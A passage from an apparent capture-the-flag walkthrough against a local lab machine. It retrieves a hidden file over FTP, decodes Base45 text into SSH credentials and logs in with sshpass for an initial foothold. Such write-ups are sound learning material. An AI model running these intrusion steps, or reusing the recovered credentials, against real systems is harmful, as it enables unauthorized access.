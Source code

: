 ```
ftp> ls
229 Entering Extended Passive Mode (|||25727|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            30 Sep 15 00:23 hidden.txt
-rw-r--r--   1 ftp      ftp           170 Sep 15 00:24 welcome.msg
226 Transfer complete
ftp> get hidden.txt
local: hidden.txt remote: hidden.txt
229 Entering Extended Passive Mode (|||36434|)
150 Opening BINARY mode data connection for hidden.txt (30 bytes)
100% |*********************************************************************************************************************************************************************|    30       25.23 KiB/s    00:00 ETA
226 Transfer complete
30 bytes received in 00:00 (7.58 KiB/s)
ftp> exit
221 Goodbye.
```

There is a txt file named hidden.txt. Its content has some string.
```
┌──(kali㉿kali)-[~]
└─$ ls
Desktop  Documents  Downloads  hidden.txt  Music  Pictures  Public  Templates  Videos
┌──(kali㉿kali)-[~]
└─$ cat hidden.txt 
9KC7WEJQE*KEYJC5G7$/E4-CFH8Q1
```

To decode this I used https://dencode.com/ 
![image](Screenshots/Screenshot-2023-10-06-035333.png)
From the results, it is obvious that, it is encoded via Base45 method and it contains credentials: 
**bytescribe:4vrf%BTG**

### Getting initial foothold
```
┌──(kali㉿kali)-[~]
└─$ sshpass -p '4vrf%BTG' ssh bytescribe@192.168.163.135  
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-33-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Expanded Security Maintenance for Applications is not enabled.

28 updates can be applied immediately.
27 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
```